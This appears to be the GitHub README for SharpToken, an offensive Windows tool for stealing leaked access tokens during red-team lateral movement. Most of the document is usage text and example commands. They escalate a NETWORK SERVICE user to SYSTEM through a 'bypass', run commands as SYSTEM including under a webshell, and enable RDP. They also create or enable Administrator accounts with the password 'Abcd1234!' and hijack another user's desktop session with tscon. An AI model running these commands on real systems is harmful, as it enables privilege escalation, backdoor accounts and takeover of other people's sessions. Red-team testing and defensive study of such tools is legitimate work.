 # SharpToken


During red team lateral movement, we often need to steal the permissions of other users. Under the defense of modern EDR, it is difficult for us to use Mimikatz to obtain other user permissions, and if the target user has no process alive, we have no way to use "OpenProcessToken" to steal Token.


SharpToken is a tool for exploiting Token leaks. It can find leaked Tokens from all processes in the system and use them. If you are a low-privileged service user, you can even use it to upgrade to "NT AUTHORITY\SYSTEM" privileges, and you can switch to the target user's desktop to do more without the target user's password. ..

![image](https://user-images.githubusercontent.com/43266206/188081018-8717b066-1143-48b8-b62b-31360316cce1.png)


## Usage

```
SharpToken By BeichenDream
=========================================================

Github : https://github.com/BeichenDream/SharpToken

If you are an NT AUTHORITY\NETWORK SERVICE user then you just need to add the bypass parameter to become an NT AUTHORIT\YSYSTEM
e.g.
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami" bypass


Usage:

SharpToken COMMAND arguments



COMMANDS:

        list_token [process pid]        [bypass]

        list_all_token [process pid] [bypass]

        add_user    <username> <password> [group] [domain] [bypass]

        enableUser <username> <NewPassword> [NewGroup] [bypass]

        delete_user <username> [domain] [bypass]

        execute <tokenUser> <commandLine> [Interactive] [bypass]

        enableRDP [bypass]

        tscon <targetSessionId> [sourceSessionId] [bypass]


example:
    SharpToken list_token
    SharpToken list_token bypass
    SharpToken list_token 6543
    SharpToken add_user admin Abcd1234! Administrators
    SharpToken enableUser Guest Abcd1234! Administrators
    SharpToken delete_user admin
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami" bypass
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true bypass
    SharpToken tscon 1




```

## Elevated Permissions

In addition to the usual Token stealing privilege enhancement, SharpToken also supports obtaining Tokens with integrity through Bypass

If you are an NT AUTHORITY/NETWORK SERVICE user and you add the bypass parameter, SharpToken will steal System from RPCSS, that is, unconditional NT AUTHORITY\NETWORK SERVICE to NT AUTHORITY\SYSTEM 

![image](https://user-images.githubusercontent.com/43266206/205461409-0b17af46-00f5-4d68-9a16-a2edd76e67ab.png)


## ListToken

Enumerated information includes SID, LogonDomain, UserName, Session, LogonType, TokenType, TokenHandle (handle of Token after Duplicate), TargetProcessId (process from which Token originates), TargetProcessToken (handle of Token in source process), Groups (group in which Token user is located)

```
SharpToken list_token
```

![image](https://user-images.githubusercontent.com/43266206/176751244-dd8f8899-59ec-48e5-9bee-464c0e146573.png)

## Enumerate Tokens from the specified process

```
SharpToken list_token 468
```

![image](https://user-images.githubusercontent.com/43266206/176753494-3c6df1cb-5d14-4b36-aa61-ca68a8c38009.png)



## Get an interactive shell

```
execute "NT AUTHORITY\SYSTEM" cmd true
```

![image](https://user-images.githubusercontent.com/43266206/176751714-c7edb21c-f0be-4794-a14f-be4a7b1fdf61.png)

## Get command execution results (executed under webshell)

```
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
```

![image](https://user-images.githubusercontent.com/43266206/176751980-dd9413f4-1a4d-4cb0-8ba2-5e0b9ccb2eed.png)


## Create an admin user with the stolen token

```

SharpToken add_user admin Abcd1234! Administrators

```

## Enable an admin user with the stolen token


```
    SharpToken enableUser Guest Abcd1234! Administrators
```

## Delete a user with a stolen Token

```
    SharpToken delete_user admin
```

## Use the stolen Token to switch to the target's desktop


Where 1 is the target user's desktop and 2 is the desktop we want to receive

```
    SharpToken tscon 1 2
```


# LICENSE

[GNU General Public License](/LICENSE) 

# Reference

https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html

https://github.com/decoder-it/NetworkServiceExploit

https://github.com/FSecureLABS/incognito

https://github.com/chroblert/JCTokenUtil
